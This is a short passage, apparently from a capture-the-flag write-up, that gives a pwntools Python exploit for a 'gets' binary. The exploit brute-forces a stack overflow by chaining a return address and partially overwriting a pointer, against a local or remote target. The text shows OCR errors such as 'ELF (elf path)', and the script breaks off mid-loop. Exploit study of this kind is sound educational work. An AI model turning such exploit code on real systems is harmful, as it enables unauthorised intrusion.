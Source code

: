 ```shell

  [rsp+0x70] == NULL



```



Continue to blast with the following exp,


```python

from pwn import *

context.terminal = ['tmux', 'split', '-h']

#context.terminal = ['gnome-terminal', '-x', 'sh', '-c']

if args['DEBUG']:

    context.log_level = 'debug'

elfpath = './gets'

context.binary = elfpath



elf = ELF (elf path)
bits = elf.bits





def exp(ip, port):

    for i in range(0x1000):

        if args['REMOTE']:

            p = remote(ip, port)

        else:

            p = process(elfpath, timeout=2)

        # gdb.attach(p)

        try:

            payload = 0x18 * 'a' + p64(0x40059B)

            for _ in range(2):

                payload += 'a' * 8 * 5 + p64(0x40059B)

            payload += 'a' * 8 * 5 + '\x16\02'

            p.sendline(payload)



```